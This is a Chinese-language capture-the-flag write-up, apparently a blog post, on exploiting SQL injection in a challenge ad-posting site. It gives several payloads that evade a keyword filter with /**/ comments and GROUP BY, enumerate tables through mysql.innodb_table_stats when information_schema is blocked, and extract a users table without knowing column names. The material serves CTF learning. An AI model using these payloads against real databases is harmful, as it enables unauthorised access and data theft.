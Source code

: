 ![upload successful](./images/pasted-346.png)
发现里面是一个广告发布系统，唯一能输入的地方就是广告位

![upload successful](./images/pasted-347.png)
发现有敏感词过滤，使用过滤：空格我们可以用/**/来代替，order by可以用group by来代替，注释符可以用’来闭合。

![upload successful](./images/pasted-348.png)
发现到23时候报错了，最终语句：<code>-1'/\*\*/group/\*\*/by/\*\*/23,'abc</code>

构造sql语句找回显点：<code>-1'union/\*\*/select/\*\*/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'abc</code>

![upload successful](./images/pasted-349.png)
找出回显点，继续看一下数据库版本：<code>-1'union/\*\*/select/\*\*/1,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'abc</code>

![upload successful](./images/pasted-350.png)
发现是MariaDB，不太熟悉，先继续爆库：<code>1'/\*\*/union/\*\*/select/\*\*/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'</code>

![upload successful](./images/pasted-351.png)
库名web1，爆表发现information_schema.tables被过滤，找到两种方法绕过：
<code>
mysql.innodb_table_stats
sys.schema_auto_increment_columns
</code>

使用：<code>1'/\*\*/union/\*\*/select/\*\*/1,2,group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/\*\*/from/\*\*/mysql.innodb_table_stats/\*\*/where/\*\*/database_name="web1"'
</code>

![upload successful](./images/pasted-352.png)
爆出表	ads,users。但是爆列时，显示column_name为未知列，这里在CSDN上搜索发现需要用"无列名爆值"。

这里记录一下：
<code>
普通的sq查询
select \* from users
查询表，并把列名替换为1，2，3，4，5，6
select 1,2,3,4,5 ,6union select \* from users
单独把第四列提出来，(select 1,2,3,4,5,6 union select * from users)a给查询结果命名
 select `4` from (select 1,2,3,4,5,6 union select \* from users)a;
若反引号被过滤，可以这样
select b from (select 1,2,3 as b,4,5 union select \* from users)a;
</code>

故此题最终payload：<code>-1'union/\*\*/select/\*\*/1, (select/\*\*/group_concat(b)/\*\*/from(select/\*\*/1,2,3/\*\*/as/\*\*/b/\*\*/union/\*\*/select\*from/\*\*/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 </code>

![upload successful](./images/pasted-353.png)
拿下flag！
